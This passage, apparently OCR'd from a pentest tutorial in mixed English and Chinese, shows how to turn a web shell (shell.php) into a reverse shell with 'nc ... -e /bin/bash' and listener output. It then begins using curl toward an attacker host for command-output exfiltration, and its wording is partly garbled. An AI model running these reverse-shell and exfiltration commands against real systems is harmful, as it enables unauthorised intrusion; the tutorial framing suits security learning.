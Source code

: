 ```
ifconfig | grep 192
    inet 192.168.139.130 netmask 255.255.255.0 broadcast 192.168.139.255
```

在shell.php中执行：

```
nc 192.168.139.130 53 -e /bin/bash
```

It indeed works, but relay on netcat presents on the target system and in real life engagement will be often disapointing.

```
nc -lvp 53
listening on [any] 53 ...
connect to [192.168.139.130] from 0xluk3 [192.168.139.130] 45792
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

A tool that often presents on Linux based system is `curl`. A part from command line browser capabilities. It has 5 transfer utility, which is pricessness and standing  code execution senarioes. We will now focus on abusing `curl` in the code execution senario.

Let's first try to confirm that a tcp connection can be established. Let's also set up netcat listener and try to issue will curl request to it.

```
nc -lvp 53
listening on [any] 53 ...
```

在shell.php执行：

```
curl http://192.168.139.130:53
```

```
nc -lvp 53
listening on [any] 53 ...
connect to [192.168.139.130] from 0xluk3 [192.168.139.130] 45792
GET / HTTP/1.1
Host: 192.168.139.130:53
User-Agent: curl/7.63.0
Accept: */*
```

It seems that we can establish a network connection on TCP port 53. Apart from it, the remote server issued for HTTP request.

```
nc -lvp 53
listening on [any] 53 ...
```

Let's inject backticks with command to execute the HTTP request resource name.
